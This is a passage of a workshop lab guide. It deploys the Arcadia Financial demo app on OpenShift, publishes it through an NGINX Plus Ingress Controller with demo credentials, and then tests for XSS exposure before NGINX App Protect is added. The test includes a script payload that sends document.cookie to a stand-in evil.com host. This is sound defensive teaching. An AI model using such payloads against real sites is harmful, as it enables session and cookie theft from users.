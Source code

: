 Access Arcadia app without NGINX App Protect
------------------------------------------------


Deploy the Arcadia Application into Kubernetes
#######################################################

.. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.


   Before we can access the Arcadia application, we need to deploy it into our Kubernetes cluster. To do this, we'll use a single manifest file that contains the necessary resources, such as Kubernetes deployments for the four Docker containers and Kubernetes services for the four Docker containers.

   To get the YAML file, we'll use the following command in our terminal window:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml

   Once we have the YAML file, we can apply it to our Kubernetes cluster with the following command:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


   We can check that our Arcadia application is running by using the following command in our terminal window:

   .. code-block:: bash

      oc get services

   This will show us the services running in our Kubernetes cluster, including those related to the Arcadia application.

   Example:

Export the NGINX Ingress Controller services
#######################################################

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export dashboard_nginx_ingress=$(oc get svc dashboard-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


Publish Arcadia app with NGINX Plus Ingress Controller
########################################################

   Now that we have our Arcadia application deployed in our Kubernetes cluster, we need to publish it using the NGINX Plus Ingress Controller. We'll do this by re-creating the NGINX Ingress Controller with Basic HTTP using the following command in our terminal window:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml

   This command creates a VirtualServer resource for our Arcadia application, which includes the host for the NGINX Ingress Controller and the upstreams for the different microservices. We can now access our Arcadia application externally using the NGINX Ingress Controller URL, which can be found by running the following command in our terminal window:

       .. code-block:: bash

         echo "NGINX Ingress Controller URL: http://$nginx_ingress/"

   Once we have the URL, we can access our Arcadia application by opening it in a web browser.


   You should be presented with the Main page, click on Login and enter the credentials as below.

   .. code-block:: 

      Username: matt
      Password: ilovef5

   When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


   .. image:: ./pictures/image10.png
      :align: center

   Congratulations!

   You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
Before we can protect our Arcadia application with NGINX App Protect, we need to check if it's currently vulnerable to Layer 7 attacks. We can do this by executing a simple XSS attack, which is a well-known OWASP top 10 attack.

To perform the XSS attack, we can launch the Firefox browser and append ``?a=<script>`` to the end of the application URL. If the request is allowed, then our application is vulnerable to XSS attacks.

.. image:: ./pictures/image11.png
   :align: center

We can further test this by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, which will attempt to steal our document cookie. If this request is also allowed, then a bad actor could potentially steal sensitive information from our application user

.. image:: ./pictures/image12.png
   :align: center

Since our application is currently vulnerable to Layer 7 attacks, we'll need to protect it using NGINX App Protect in the following Lab.

